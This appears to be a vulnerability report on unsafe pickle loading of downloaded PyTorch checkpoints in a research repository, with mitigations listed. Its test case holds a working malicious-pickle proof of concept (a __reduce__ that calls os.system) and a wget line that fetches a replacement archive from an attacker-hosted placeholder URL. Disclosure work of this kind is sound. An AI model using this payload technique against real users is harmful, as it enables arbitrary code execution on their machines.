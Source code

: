 ### Vulnerability List:

- Vulnerability Name: Pickle Deserialization in Pretrained Models
- Description:
    1. The project provides a script `scripts/download_models.sh` to download pretrained models from a remote Google Cloud Storage location.
    2. These downloaded models are expected to be loaded by the training and testing scripts using `torch.load` function from PyTorch.
    3. PyTorch's `torch.load` function, by default, uses Python's `pickle` module for deserialization.
    4. Python's `pickle` module is known to be vulnerable to deserialization attacks. If a pickle file is maliciously crafted, it can execute arbitrary code when loaded.
    5. A threat actor could potentially compromise the cloud storage location or perform a man-in-the-middle attack to replace the legitimate pretrained model files with malicious pickle files.
    6. When a user downloads and loads these compromised pretrained models using the project's scripts, the malicious code embedded in the pickle file will be executed on their machine.
- Impact:
    - Arbitrary code execution on the user's machine.
    - Full compromise of the user's system.
    - Potential for data theft, malware installation, or denial of service.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The project does not implement any security measures to verify the integrity or authenticity of the downloaded pretrained models. There are no checks like cryptographic signatures or checksums to ensure the models are from a trusted source and haven't been tampered with.
- Missing Mitigations:
    - **Integrity Checks:** Implement cryptographic signatures or checksums for the pretrained model files. The project should verify these signatures before loading the models to ensure they are from a trusted source and haven't been modified.
    - **Secure Deserialization Practices:** Explore safer alternatives to `pickle` for serializing and deserializing models, or implement secure loading mechanisms for pickle files to prevent arbitrary code execution.
    - **User Warnings:** Add clear warnings in the documentation (README.md) about the potential risks of using pretrained models from external sources and the importance of verifying their integrity.
- Preconditions:
    - The threat actor needs to be able to replace the legitimate pretrained model files hosted at `gs://graph_distillation/ckpt` or intercept the download process.
    - The user must execute the `scripts/download_models.sh` script to download the pretrained models.
    - The user must then run training or testing scripts that load these downloaded models using `torch.load`.
- Source Code Analysis:
    - **`scripts/download_models.sh`**:
        ```bash
        wget https://storage.googleapis.com/graph_distillation/ckpt/ntu-rgbd/depth.zip
        wget https://storage.googleapis.com/graph_distillation/ckpt/ntu-rgbd/jjd.zip
        ...
        ```
        This script uses `wget` to download zip files containing pretrained models from Google Cloud Storage. There is no verification of the downloaded files.
    - **`detection/model.py`** and **`classification/model.py`**:
        ```python
        def load(self, load_ckpt_paths, options, epoch=200):
            ...
            path = os.path.join(ckpt_path, 'embed_{}.pth'.format(epoch))
            ckpt = torch.load(path) # Potential vulnerability: pickle.load is used here
            try:
                self.embeds[i].load_state_dict(ckpt)
            except:
                utils.warn('Check that the "modalities" argument is correct.')
                exit(0)
            utils.info('{}: ckpt {} loaded'.format(self.modalities[i], path))
        ```
        The `load` functions in both `detection/model.py` and `classification/model.py` use `torch.load(path)` to load the model checkpoints. This function is vulnerable to pickle deserialization attacks if the file at `path` is maliciously crafted.

- Security Test Case:
    1. **Setup (Attacker):**
        - Create a malicious Python file (e.g., `malicious_payload.py`) with the following code to generate a malicious pickle file:
            ```python
            import torch
            import os

            class MaliciousModel(object):
                def __reduce__(self):
                    return (os.system, ('touch /tmp/pwned',)) # Example: create a file /tmp/pwned, can be replaced with more harmful commands

            model = MaliciousModel()
            torch.save(model, 'malicious_model.pth')
            ```
        - Run the malicious Python script: `python malicious_payload.py`. This will create a malicious pickle file named `malicious_model.pth`.
        - Create a zip archive containing `malicious_model.pth` (e.g., `malicious_depth.zip`).
        - Host `malicious_depth.zip` on a web server accessible to the victim machine (or, if possible, replace the original `depth.zip` in the cloud storage - **Note:** This step is for demonstration and should be done in a controlled environment and only if you have permissions to modify the cloud storage. For ethical testing, focus on MITM or local file replacement).

    2. **Action (Victim):**
        - Modify the `scripts/download_models.sh` script to download the malicious zip file instead of the legitimate one. For example, change the line:
            ```bash
            wget https://storage.googleapis.com/graph_distillation/ckpt/ntu-rgbd/depth.zip
            ```
            to:
            ```bash
            wget <URL_TO_YOUR_WEB_SERVER>/malicious_depth.zip -O depth.zip
            ```
        - Run the modified download script: `sh scripts/download_models.sh`. This will download and save the malicious zip file as `depth.zip`.
        - Run a script that uses the downloaded 'depth' model, for example: `sh scripts/test_pku_mmd.sh`.

    3. **Verification:**
        - After running the test script, check if the file `/tmp/pwned` exists on the victim's system. If it exists, it confirms that the arbitrary code execution was successful due to the pickle deserialization vulnerability.
        - **Important:** For real-world testing, replace the `touch /tmp/pwned` command with less harmful actions like printing a message to the console to avoid unintended damage. Never execute harmful commands on systems without explicit permission.